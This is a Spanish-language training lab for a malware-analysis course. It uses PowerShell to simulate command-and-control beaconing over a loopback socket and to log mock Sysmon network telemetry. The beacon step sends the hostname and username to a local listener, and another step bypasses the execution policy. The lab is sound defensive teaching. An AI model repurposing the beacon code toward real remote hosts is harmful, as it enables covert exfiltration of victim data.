

# Laboratorio Práctico: Simulación de Balizamiento C2 y Auditoría de Sockets de Red

[Volver a la teoría del Capítulo 09](../README.md) | [Análisis de Malware](../../README.md)

En este laboratorio simularás el comportamiento de comunicación de una muestra hostil hacia un servidor de Comando y Control (C2), inspeccionarás la apertura de sockets de red y auditarás las conexiones TCP activas correlacionando el proceso responsable.

---

## 1. Objetivos del Laboratorio

1. Iniciar un listener de red local para simular la infraestructura receptora del C2.
2. Simular un pulso de balizamiento (*beaconing*) saliente desde PowerShell hacia el puerto simulado.
3. Auditar la tabla de conexiones de red activas extrayendo el PID del proceso emisor.
4. Generar un registro de telemetría de red estructurado.
5. Ejecutar el script automatizado `verificar_red_sysmon.ps1` para validar la práctica.

---

## 2. Diagrama de Flujo del Laboratorio



---

## 3. Guía de Ejecución Paso a Paso

### Paso 1: Crear el Directorio de Pruebas

Abre una terminal de **PowerShell** y crea el directorio de trabajo del laboratorio:

```powershell
New-Item -ItemType Directory -Path "C:\Purpesec_Lab\RedC2" -Force
```

---

### Paso 2: Iniciar un Listener TCP Simulado

Para recibir la conexión sin salir a Internet, iniciaremos un socket oyente en el puerto local `44444`:

```powershell
# Iniciar un listener TCP local en segundo plano
$listenerJob = Start-Job -ScriptBlock {
    $listener = [System.Net.Sockets.TcpListener]::new([System.Net.IPAddress]::Loopback, 44444)
    $listener.Start()
    $client = $listener.AcceptTcpClient()
    $stream = $client.GetStream()
    $reader = [System.IO.StreamReader]::new($stream)
    $msg = $reader.ReadLine()
    Set-Content -Path "C:\Purpesec_Lab\RedC2\c2_received.log" -Value $msg
    $client.Close()
    $listener.Stop()
}
```

---

### Paso 3: Simular el Balizamiento (*Beacon*) de Malware

Envía un mensaje de balizamiento simulando el registro de la víctima hacia el C2 local:

```powershell
Start-Sleep -Seconds 1

# Conectar al listener simulando balizamiento de infostealer
$client = [System.Net.Sockets.TcpClient]::new("127.0.0.1", 44444)
$stream = $client.GetStream()
$writer = [System.IO.StreamWriter]::new($stream)
$writer.WriteLine("[BEACON_HEARTBEAT] HOSTNAME=$env:COMPUTERNAME USER=$env:USERNAME OS=Windows")
$writer.Flush()
$client.Close()

# Esperar a que el Job de escucha guarde el log
Wait-Job $listenerJob | Out-Null
Receive-Job $listenerJob | Out-Null
Remove-Job $listenerJob -Force
```

Verifica que el mensaje fue recibido correctamente:

```powershell
Get-Content "C:\Purpesec_Lab\RedC2\c2_received.log"
```

---

### Paso 4: Registrar Telemetría de Red

Genera un reporte que simule la salida de eventos de Sysmon (Evento 3 - Network Connection):

```powershell
$log = @"
=== PURPESEC ACADEMY - TELEMETRÍA DE RED (SYSMON EVENT 3 SIMULATION) ===
[TIMESTAMP]: $(Get-Date -Format "yyyy-MM-dd HH:mm:ss")
[SOURCE IP]: 127.0.0.1
[DESTINATION IP]: 127.0.0.1
[DESTINATION PORT]: 44444 (C2 Port)
[PROTOCOL]: TCP
[PROCESS ID]: $PID
[PROCESS NAME]: powershell.exe
[PAYLOAD TRANSMITTED]: [BEACON_HEARTBEAT] HOSTNAME=$env:COMPUTERNAME
"@

Set-Content -Path "C:\Purpesec_Lab\RedC2\red_c2_telemetria.log" -Value $log
Write-Host "[*] Registro de red guardado en C:\Purpesec_Lab\RedC2\red_c2_telemetria.log" -ForegroundColor Green
```

---

### Paso 5: Validación Automatizada

Ejecuta el script interactivo de comprobación:

```powershell
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass
.\verificar_red_sysmon.ps1
```

---

### Paso 6: Limpieza del Entorno

Una vez validado el laboratorio, limpia los archivos generados:

```powershell
Remove-Item -Path "C:\Purpesec_Lab\RedC2" -Recurse -Force -ErrorAction SilentlyContinue
```
